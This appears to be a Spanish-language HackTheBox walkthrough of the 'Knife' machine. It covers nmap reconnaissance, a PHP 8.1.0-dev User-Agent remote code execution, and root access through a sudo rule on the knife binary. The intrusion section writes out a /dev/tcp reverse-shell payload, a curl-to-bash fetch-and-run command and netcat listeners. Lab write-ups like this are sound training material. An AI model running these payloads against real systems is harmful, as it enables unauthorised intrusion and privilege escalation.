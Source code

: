 ```yaml
---
title: Knife
date: 2024-07-07 22:15:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Linux
tags:
  - PHP 8.1.0-dev
  - Abusing Sudoers
image:
  path: /assets/img/Knife/Knife.png
---
```


## Skills

- PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
- Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
  
## Certificaciones

- eJPT
  
## Descripción

`Knife` es una máquina `easy linux` donde estaremos vulnerando la máquina a través de un `rce` (remote code execution), el cual obtenemos al `explotar` el `php 8.1.0-dev`. Mediante el `rce` nos enviamos una `reverse shell` a nuestro equipo y posteriormente `escalamos privilegios` abusando del `sudoers`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `linux` suele ser `64`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.7.60 
PING 10.129.7.60 (10.129.7.60) 56(84) bytes of data.
64 bytes from 10.129.7.60: icmp_seq=1 ttl=63 time=155 ms
64 bytes from 10.129.7.60: icmp_seq=2 ttl=63 time=1542 ms
64 bytes from 10.129.7.60: icmp_seq=3 ttl=63 time=594 ms
^C
--- 10.129.7.60 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3011ms
rtt min/avg/max/mdev = 155.024/763.527/1541.628/578.642 ms, pipe 2
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -v 10.129.7.60 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:06 CEST
Initiating SYN Stealth Scan at 10:06
Scanning 10.129.7.60 [65535 ports]
Discovered open port 22/tcp on 10.129.7.60
Discovered open port 80/tcp on 10.129.7.60
Completed SYN Stealth Scan at 10:07, 23.98s elapsed (65535 total ports)
Nmap scan report for 10.129.7.60
Host is up (0.092s latency).
Not shown: 45604 closed tcp ports (reset), 19929 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
           Raw packets sent: 118385 (5.209MB) | Rcvd: 110593 (4.424MB)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 22,80 10.129.7.60 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:09 CEST
Nmap scan report for 10.129.7.60
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```

### Web Enumeration

Cuando `accedemos` al servicio `web` visualizamos lo siguiente

![](/assets/img/Knife/image_1.png)

`Fuzzeamos` en busca de `rutas` y no encontramos `nada`, con wappalyzer vemos las tecnologías que se están usando en la página web

![](/assets/img/Knife/image_2.png)

Usamos `whatweb` para obtener más `información` y al parece la `versión` de `php` es `8.1.0-dev`

```
# whatweb 10.129.234.175
http://10.129.234.175 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.234.175], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Debido a que no hemos encontrado más puertos abiertos ni por TCP ni por UDP, tampoco hay virtual hosting y fuzzeando en busca de nuevas rutas no hemos encontrado. Vamos a buscar vulnerabilidades en google para la versión 8.1.0 de php, para esto hacemos la búsqueda la siguiente búsqueda > `php 8.1.0 exploit`

![](/assets/img/Knife/image_3.png)

## Web Exploitation

Al parecer es `vulnerable` al `exploit` encontrado y obtenemos `acceso` a la máquina víctima

```
# python3 exploit.py 
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
Enter the full host url:
http://10.129.234.175

Interactive shell is opened on http://10.129.234.175 
Can't acces tty; job crontol turned off.
$ whoami
james
```

## Intrusión

Procedemos a mandarnos una `reverse shell`, lo primero es crearnos en nuestra máquina una archivo llamado `shell` en su interior haya este `payload`

```
bash -i >& /dev/tcp/10.10.16.15/443 0>&1
```

En el `mismo directorio` donde nos hemos creado el archivo `shell`, no ponemos en `escucha` con `python` por el `puerto 80`

```
# python -m http.server 80
```

Nos ponemos en `escucha` también por el `puerto 443` para recibir la `shell`

```
# nc -nlvp 443
```

Desde la máquina víctima nos mandamos un `curl` a nuestra máquina y el output lo pipeamos con `bash`

```
$ curl http://10.10.16.15|bash
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
james@knife:/opt$ whoami
james
```

## Privilege Escalation

Una vez dentro de la máquina víctima vemos si podemos `ejecutar` algún `binario` con `sudo`

```
james@knife:/opt$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Buscando en [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/) nos damos cuenta de que mediante este binario podemos `escalar privilegios` y convertirnos en usuario `root`

```
james@knife:/opt$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
